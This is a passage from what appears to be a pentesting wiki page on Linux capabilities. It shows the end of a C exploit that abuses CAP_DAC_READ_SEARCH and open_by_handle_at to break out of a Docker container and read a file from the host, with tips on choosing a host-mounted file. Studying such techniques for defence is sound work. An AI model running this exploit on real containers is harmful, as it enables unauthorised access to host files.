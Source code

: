 ```c
    if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
        die("[-] open");
    
    if (find_handle(fd1, argv[1], &root_h, &h) <= 0)
        die("[-] Cannot find valid handle!");
    
    fprintf(stderr, "[!] Got a final handle!\n");
    dump_handle(&h);
    
    if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
        die("[-] open_by_handle");
    
    memset(buf, 0, sizeof(buf));
    if (read(fd2, buf, sizeof(buf) - 1) < 0)
        die("[-] read");
    
    printf("Success!!\n");
    
    FILE *fptr;
    fptr = fopen(argv[2], "w");
    fprintf(fptr,"%s", buf);
    fclose(fptr);
    
    close(fd2); close(fd1);
    
    return 0;
}
```


I exploit needs to find a pointer to something mounted on the host. The original exploit used the file /.dockerinit and this modified version uses /etc/hostname. If the exploit isn't working maybe you need to set a different file. To find a file that is mounted in the host just execute mount command:


![](<../../.gitbook/assets/image (407) (1).png>)

**The code of this technique was copied from the laboratory of "Abusing DAC\_READ\_SEARCH Capability" from** [**https://www.pentesteracademy.com/**](https://www.pentesteracademy.com)

​

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png" alt=""><figcaption></figcaption></figure>

​​​​​​​​​​​[**RootedCON**](https://www.rootedcon.com/) is the most relevant cybersecurity event in **Spain** and one of the most important in **Europe**. With **the mission of promoting technical knowledge**, this congress is a boiling meeting point for technology and cybersecurity professionals in every discipline.



## CAP\_DAC\_OVERRIDE
